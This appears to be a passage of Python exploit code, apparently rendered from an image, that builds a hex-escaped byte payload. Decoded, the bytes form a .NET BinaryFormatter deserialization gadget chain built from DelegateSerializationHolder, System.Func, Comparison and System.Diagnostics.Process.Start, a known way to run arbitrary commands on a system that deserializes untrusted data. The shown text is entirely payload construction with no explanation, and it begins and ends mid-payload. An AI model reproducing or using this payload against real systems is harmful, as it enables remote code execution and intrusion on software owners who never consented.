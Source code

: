 ```python
payload += "\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x6f\x6c\x64\x65\x72\x2b\x44\x65\x6c"
payload += "\x65\x67\x61\x74\x65\x45\x6e\x74\x72\x79\x07\x00\x00\x00\x04\x74\x79\x70\x65\x08"
payload += "\x61\x73\x73\x65\x6d\x62\x6c\x79\x06\x74\x61\x72\x67\x65\x74\x12\x74\x61\x72\x67"
payload += "\x65\x74\x54\x79\x70\x65\x41\x73\x73\x65\x6d\x62\x6c\x79\x0e\x74\x61\x72\x67\x65"
payload += "\x74\x54\x79\x70\x65\x4e\x61\x6d\x65\x0a\x6d\x65\x74\x68\x6f\x64\x4e\x61\x6d\x65"
payload += "\x0d\x64\x65\x6c\x65\x67\x61\x74\x65\x45\x6e\x74\x72\x79\x01\x01\x02\x01\x01\x01"
payload += "\x03\x30\x53\x79\x73\x74\x65\x6d\x2e\x44\x65\x6c\x65\x67\x61\x74\x65\x53\x65\x72"
payload += "\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x6f\x6c\x64\x65\x72\x2b\x44\x65\x6c"
payload += "\x65\x67\x61\x74\x65\x45\x6e\x74\x72\x79\x06\x0b\x00\x00\x00\xb0\x02\x53\x79\x73"
payload += "\x74\x65\x6d\x2e\x46\x75\x6e\x63\x60\x33\x5b\x5b\x53\x79\x73\x74\x65\x6d\x2e\x53"
payload += "\x74\x72\x69\x6e\x67\x2c\x20\x6d\x73\x63\x6f\x72\x6c\x69\x62\x2c\x20\x56\x65\x72"
payload += "\x73\x69\x6f\x6e\x3d\x34\x2e\x30\x2e\x30\x2e\x30\x2c\x20\x43\x75\x6c\x74\x75\x72"
payload += "\x65\x3d\x6e\x65\x75\x74\x72\x61\x6c\x2c\x20\x50\x75\x62\x6c\x69\x63\x4b\x65\x79"
payload += "\x54\x6f\x6b\x65\x6e\x3d\x62\x37\x37\x61\x35\x63\x35\x36\x31\x39\x33\x34\x65\x30"
payload += "\x38\x39\x5d\x2c\x5b\x53\x79\x73\x74\x65\x6d\x2e\x53\x74\x72\x69\x6e\x67\x2c\x20"
payload += "\x6d\x73\x63\x6f\x72\x6c\x69\x62\x2c\x20\x56\x65\x72\x73\x69\x6f\x6e\x3d\x34\x2e"
payload += "\x30\x2e\x30\x2e\x30\x2c\x20\x43\x75\x6c\x74\x75\x72\x65\x3d\x6e\x65\x75\x74\x72"
payload += "\x61\x6c\x2c\x20\x50\x75\x62\x6c\x69\x63\x4b\x65\x79\x54\x6f\x6b\x65\x6e\x3d\x62"
payload += "\x37\x37\x61\x35\x63\x35\x36\x31\x39\x33\x34\x65\x30\x38\x39\x5d\x2c\x5b\x53\x79"
payload += "\x73\x74\x65\x6d\x2e\x44\x69\x61\x67\x6e\x6f\x73\x74\x69\x63\x73\x2e\x50\x72\x6f"
payload += "\x63\x65\x73\x73\x2c\x20\x53\x79\x73\x74\x65\x6d\x2c\x20\x56\x65\x72\x73\x69\x6f"
payload += "\x6e\x3d\x34\x2e\x30\x2e\x30\x2e\x30\x2c\x20\x43\x75\x6c\x74\x75\x72\x65\x3d\x6e"
payload += "\x65\x75\x74\x72\x61\x6c\x2c\x20\x50\x75\x62\x6c\x69\x63\x4b\x65\x79\x54\x6f\x6b"
payload += "\x65\x6e\x3d\x62\x37\x37\x61\x35\x63\x35\x36\x31\x39\x33\x34\x65\x30\x38\x39\x5d"
payload += "\x5d\x06\x0c\x00\x00\x00\x4b\x6d\x73\x63\x6f\x72\x6c\x69\x62\x2c\x20\x56\x65\x72"
payload += "\x73\x69\x6f\x6e\x3d\x34\x2e\x30\x2e\x30\x2e\x30\x2c\x20\x43\x75\x6c\x74\x75\x72"
payload += "\x65\x3d\x6e\x65\x75\x74\x72\x61\x6c\x2c\x20\x50\x75\x62\x6c\x69\x63\x4b\x65\x79"
payload += "\x54\x6f\x6b\x65\x6e\x3d\x62\x37\x37\x61\x35\x63\x35\x36\x31\x39\x33\x34\x65\x30"
payload += "\x38\x39\x0a\x06\x0d\x00\x00\x00\x49\x53\x79\x73\x74\x65\x6d\x2c\x20\x56\x65\x72"
payload += "\x73\x69\x6f\x6e\x3d\x34\x2e\x30\x2e\x30\x2e\x30\x2c\x20\x43\x75\x6c\x74\x75\x72"
payload += "\x65\x3d\x6e\x65\x75\x74\x72\x61\x6c\x2c\x20\x50\x75\x62\x6c\x69\x63\x4b\x65\x79"
payload += "\x54\x6f\x6b\x65\x6e\x3d\x62\x37\x37\x61\x35\x63\x35\x36\x31\x39\x33\x34\x65\x30"
payload += "\x38\x39\x06\x0e\x00\x00\x00\x1a\x53\x79\x73\x74\x65\x6d\x2e\x44\x69\x61\x67\x6e"
payload += "\x6f\x73\x74\x69\x63\x73\x2e\x50\x72\x6f\x63\x65\x73\x73\x06\x0f\x00\x00\x00\x05"
payload += "\x53\x74\x61\x72\x74\x09\x10\x00\x00\x00\x04\x09\x00\x00\x00\x2f\x53\x79\x73\x74"
payload += "\x65\x6d\x2e\x52\x65\x66\x6c\x65\x63\x74\x69\x6f\x6e\x2e\x4d\x65\x6d\x62\x65\x72"
payload += "\x49\x6e\x66\x6f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x6f\x6c"
payload += "\x64\x65\x72\x07\x00\x00\x00\x04\x4e\x61\x6d\x65\x0c\x41\x73\x73\x65\x6d\x62\x6c"
payload += "\x79\x4e\x61\x6d\x65\x09\x43\x6c\x61\x73\x73\x4e\x61\x6d\x65\x09\x53\x69\x67\x6e"
payload += "\x61\x74\x75\x72\x65\x0a\x53\x69\x67\x6e\x61\x74\x75\x72\x65\x32\x0a\x4d\x65\x6d"
payload += "\x62\x65\x72\x54\x79\x70\x65\x10\x47\x65\x6e\x65\x72\x69\x63\x41\x72\x67\x75\x6d"
payload += "\x65\x6e\x74\x73\x01\x01\x01\x01\x01\x00\x03\x08\x0d\x53\x79\x73\x74\x65\x6d\x2e"
payload += "\x54\x79\x70\x65\x5b\x5d\x09\x0f\x00\x00\x00\x09\x0d\x00\x00\x00\x09\x0e\x00\x00"
payload += "\x00\x06\x14\x00\x00\x00\x3e\x53\x79\x73\x74\x65\x6d\x2e\x44\x69\x61\x67\x6e\x6f"
payload += "\x73\x74\x69\x63\x73\x2e\x50\x72\x6f\x63\x65\x73\x73\x20\x53\x74\x61\x72\x74\x28"
payload += "\x53\x79\x73\x74\x65\x6d\x2e\x53\x74\x72\x69\x6e\x67\x2c\x20\x53\x79\x73\x74\x65"
payload += "\x6d\x2e\x53\x74\x72\x69\x6e\x67\x29\x06\x15\x00\x00\x00\x3e\x53\x79\x73\x74\x65"
payload += "\x6d\x2e\x44\x69\x61\x67\x6e\x6f\x73\x74\x69\x63\x73\x2e\x50\x72\x6f\x63\x65\x73"
payload += "\x73\x20\x53\x74\x61\x72\x74\x28\x53\x79\x73\x74\x65\x6d\x2e\x53\x74\x72\x69\x6e"
payload += "\x67\x2c\x20\x53\x79\x73\x74\x65\x6d\x2e\x53\x74\x72\x69\x6e\x67\x29\x08\x00\x00"
payload += "\x00\x0a\x01\x0a\x00\x00\x00\x09\x00\x00\x00\x06\x16\x00\x00\x00\x07\x43\x6f\x6d"
payload += "\x70\x61\x72\x65\x09\x0c\x00\x00\x00\x06\x18\x00\x00\x00\x0d\x53\x79\x73\x74\x65"
payload += "\x6d\x2e\x53\x74\x72\x69\x6e\x67\x06\x19\x00\x00\x00\x2b\x49\x6e\x74\x33\x32\x20"
payload += "\x43\x6f\x6d\x70\x61\x72\x65\x28\x53\x79\x73\x74\x65\x6d\x2e\x53\x74\x72\x69\x6e"
payload += "\x67\x2c\x20\x53\x79\x73\x74\x65\x6d\x2e\x53\x74\x72\x69\x6e\x67\x29\x06\x1a\x00"
payload += "\x00\x00\x32\x53\x79\x73\x74\x65\x6d\x2e\x49\x6e\x74\x33\x32\x20\x43\x6f\x6d\x70"
payload += "\x61\x72\x65\x28\x53\x79\x73\x74\x65\x6d\x2e\x53\x74\x72\x69\x6e\x67\x2c\x20\x53"
payload += "\x79\x73\x74\x65\x6d\x2e\x53\x74\x72\x69\x6e\x67\x29\x08\x00\x00\x00\x0a\x01\x10"
payload += "\x00\x00\x00\x08\x00\x00\x00\x06\x1b\x00\x00\x00\x71\x53\x79\x73\x74\x65\x6d\x2e"
payload += "\x43\x6f\x6d\x70\x61\x72\x69\x73\x6f\x6e\x60\x31\x5b\x5b\x53\x79\x73\x74\x65\x6d"
payload += "\x2e\x53\x74\x72\x69\x6e\x67\x2c\x20\x6d\x73\x63\x6f\x72\x6c\x69\x62\x2c\x20\x56"
payload += "\x65\x72\x73\x69\x6f\x6e\x3d\x34\x2e\x30\x2e\x30\x2e\x30\x2c\x20\x43\x75\x6c\x74"
payload += "\x75\x72\x65\x3d\x6e\x65\x75\x74\x72\x61\x6c\x2c\x20\x50\x75\x62\x6c\x69\x63\x4b"
```
